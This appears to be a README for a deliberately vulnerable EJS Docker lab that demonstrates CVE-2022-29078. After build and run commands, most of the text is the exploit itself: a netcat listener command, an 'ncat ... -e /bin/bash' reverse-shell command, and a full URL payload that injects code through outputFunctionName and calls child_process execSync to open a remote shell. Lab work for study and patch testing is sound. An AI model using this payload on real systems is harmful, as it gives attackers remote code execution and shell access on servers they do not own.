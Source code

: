 Build the docker image

`docker build . -t vuln-ejs:latest`

Run it

`docker run -p 3000:3000 vuln-ejs:latest`

## Usage

1 - With netcat start listening on a given host, on the port 1337 for example

`nc -lv 1337`

Then we will exploit CVE-2022-29078 RCE to create a remote shell by issuing the following command in the container

```ncat host.docker.internal 1337 -e /bin/bash```

Note : pay attention that the netcat command may differs between the host OS & the container's distro (in macosx is it `nc`, while in the container it is `ncat`)


2 - To do that you will exploit the vulnerabilities using the following url 

`http://localhost:3000/?id=You&settings[view%20options][outputFunctionName]=x;process.mainModule.require(%27child_process%27).execSync(%27ncat%20host.docker.internal%201337%20-e%20/bin/bash%27);s`

Replace `host.docker.internal` if needed, to open your remote shell where your step 1 netcat processing is listening.

![Exploit overview](./images/exploited.png)

To trigger the exploit: 

open a terminal and run 

`nc -lv 1337`

Then use the link in the application to open the web shell.
